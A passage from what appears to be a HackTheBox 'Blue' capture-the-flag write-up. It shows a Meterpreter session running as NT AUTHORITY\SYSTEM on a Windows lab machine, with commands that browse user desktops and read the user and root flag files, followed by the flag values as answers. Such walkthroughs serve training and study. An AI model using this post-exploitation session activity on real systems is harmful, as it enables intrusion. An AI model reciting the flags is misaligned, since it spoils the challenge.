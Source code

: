 The Meterpreter session is running under the user `NT AUTHORITY\SYSTEM`, which is the most powerful user on a Windows machine. We have full control of the target machine.

**Answer :** `NT AUTHORITY\SYSTEM`

### Flags

Now that we have access to the target machine, we can retrieve the flags and finish the Blue machine.

```bash
meterpreter > pwd
C:\Windows\system32
meterpreter > cd /
meterpreter > cd Users\\haris\\Desktop\\
meterpreter > ls
Listing: C:\Users\haris\Desktop
===============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2017-07-15 09:58:32 +0200  desktop.ini
100444/r--r--r--  34    fil   2025-08-18 17:26:29 +0200  user.txt

meterpreter > cat user.txt
fed8801022975aad64bbbb59f608b531

meterpreter > cd /
meterpreter > cd Users\\Administrator\\Desktop\\
meterpreter > ls
Listing: C:\Users\Administrator\Desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2017-07-21 08:56:40 +0200  desktop.ini
100444/r--r--r--  34    fil   2025-08-18 17:26:29 +0200  root.txt

meterpreter > cat root.txt
c43865a2cb4396db455f845222344c48
```

Congrats! 🥳 We now have finished the **Blue** machine on HackTheBox!

**Answers:**

- **user.txt → `fed8801022975aad64bbbb59f608b531`**
- **root.txt → `c43865a2cb4396db455f845222344c48`**

![Blue](./screenshots/pwned.png)